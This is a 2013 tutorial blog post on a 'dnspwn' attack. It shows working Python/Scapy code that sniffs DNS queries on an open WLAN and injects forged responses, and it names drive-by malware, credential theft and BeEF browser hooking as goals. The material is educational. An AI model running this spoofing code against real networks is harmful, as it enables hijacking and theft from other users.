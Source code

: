 ```yaml
---
layout: post
title: "Wireless Attacks with Python: Part One - The \"Dnspwn Attack\""
date: 2013-11-15 20:45
comments: true
published: true
categories:
- wireless
- python
- security
---
```


<img src="{{root_url}}/images/headers/wireless_python.png"/>

### Introduction
A while back, I [published a post](http://raidersec.blogspot.com/2013/01/wireless-deauth-attack-using-aireplay.html) on the Raidersec blog demonstrating how to perform a deauthentication attack using Python and Scapy. I enjoyed writing the post, since I got the opportunity to learn in-depth about how different wireless attacks work, beyond just learning how to exclusively use the [aircrack suite](http://www.aircrack-ng.org/).

So, with that being said, this post will kick off a short series of posts discussing how to perform common wireless attacks using Python. I hope you enjoy the posts and, as always, never hesitate to let me know if you have any comments or questions below.
<!--more-->
### The "Dnspwn Attack"
The first attack we'll explore is what I call the "dnspwn attack" (since, from what I can tell, this attack was first created targeting HTTP with the "[airpwn](http://airpwn.sourceforge.net/Airpwn.html)" tool, and later extended to DNS) The idea behind the attack is pretty simple:

Consider two people on the same open WLAN: Bob and Eve. Eve wants to get Bob to visit a malicious webpage she created so that she can install malware onto Bob's computer via a drive-by download, or perhaps show a spoofed website to try and steal Bob's credentials.

To do this, she remembers that she can sniff all requests coming to and from Bob's computer. She also knows that she is *closer* to Bob than the web server he is sending a request to. So, she decides to wait until Bob sends a web request, and see if she can send back a spoofed response pretending to come from the web server *before* the actual web server can respond. Turns out, she can. In fact, once the spoofed response is received, Bob's computer will likely ignore any further traffic received, including the real response!

Let's see what this would look like:

<a href="{{root_url}}/images/blog/wireless-attacks/dnspwn/diagram.png" target="_blank"><img src="{{root_url}}/images/blog/wireless-attacks/dnspwn/diagram_small.png"/></a>


So, now that we know how the attack works, let's automate it!

### Setting up the Alfa AWUS06H

As was the case in my Raidersec post, we will be using the handy [Alfa AWUS036H](http://www.amazon.com/Alfa-AWUS036H-802-11b-Wireless-network/dp/B002WCEWU8) for this attack. The first thing we want to do is to put our wireless card in monitor mode so that we can capture all traffic coming from the ```demo_insecure``` network.

```
root@bt:~# airmon-ng start wlan0
```

Now that we have monitor mode up and running on ```mon0```, let's start coding!

### Coding the Attack

We will utilize the ```scapy``` module to perform the attack. Let's start by sniffing any UDP packet with a destination of port 53, and send the packet to a function called ```send_response``` that we will make later:

```
from scapy.all import *

sniff(prn=lambda x: send_response(x),
	lfilter=lambda x:x.haslayer(UDP) and x.dport == 53)
```

Now let's create a function which can parse the request for relevant information, and inject the response. We can parse the packet and create our response simply by working our way up the layers as follows:

* 802.11 Frame - Change the "to-ds" flag to "from-ds" (our request will now be coming *from* the access point)
* 802.11 Frame - Switch the source and destination MAC addresses
* IP Layer - Switch the source and destination IP addresses
* UDP layer - Switch the source and destination ports
* DNS layer - Set the "answer" flag(s), and append our spoofed answer

Fortunately, ```scapy``` makes this very simple for us by abstracting away a lot of minor details (e.g. in fact, there are *4* MAC address fields in an 802.11 frame, each in a different order depending on the direction of the packet). With that being said, here's the code:

```
def send_response(x):
	# Get the requested domain
	req_domain = x[DNS].qd.qname
	spoofed_ip = '192.168.2.1'
	# Let's build our response from a copy of the original packet
	response = x.copy()
	# We need to start by changing our response to be "from-ds", or from the access point.
	response.FCfield = 2L
	# Switch the MAC addresses
	response.addr1, response.addr2 = x.addr2, x.addr1
	# Switch the IP addresses
	response.src, response.dst = x.dst, x.src
	# Switch the ports
	response.sport, response.dport = x.dport, x.sport
	# Set the DNS flags
	response[DNS].qr = 1L
	response[DNS].ra = 1L
	response[DNS].ancount = 1
```

Now that we've set all the flags, let's create and append the DNS answer:

```
response[DNS].an = DNSRR(
	rrname = req_domain,
	type = 'A',
	rclass = 'IN',
	ttl = 900,
	rdata = spoofed_ip
	)
```

And, finally, we inject the spoofed response:

```
sendp(response)
```

That's all there is to it! You can find the full source on [Github](https://github.com/jordan-wright/python-wireless-attacks/blob/master/dnspwn.py).

### Demo
For the demo, I have the following HTML response available on the host 192.168.2.138:

``` html
<html>
<head></head>
<body>
	Owned.
</body>
</html>
```
It's worth noticing that we can have *any* HTML, Javascript, etc. we want. It would be trivial to hook the browser using the [BeEF framework](http://beefproject.com/), for example.

Here's a screenshot of it in action (I am using my iPhone as the victim):

<a href="{{root_url}}/images/blog/wireless-attacks/dnspwn/screen_shot_pc.png" target="_blank"><img src="{{root_url}}/images/blog/wireless-attacks/dnspwn/screen_shot_pc.png"/></a>
<a href="{{root_url}}/images/blog/wireless-attacks/dnspwn/iphone.png" target="_blank"><img src="{{root_url}}/images/blog/wireless-attacks/dnspwn/iphone_small.png"/></a>

### Conclusion & Future Improvements
It's important to note that this attack will work just as well on other simple request/response protocols. For example, the original "airpwn" attack spoofed HTTP responses. There are also quite a few improvements we can make to this script. Here are a few:

* Match requests against regular expressions (for example, only replacing Javascript content)
* Set options from arguments / Read configuration information from a file
* Implement the attack for other protocols (ie HTTP).

Enjoy!

Jordan ([@jw_sec](http://twitter.com/jw_sec))
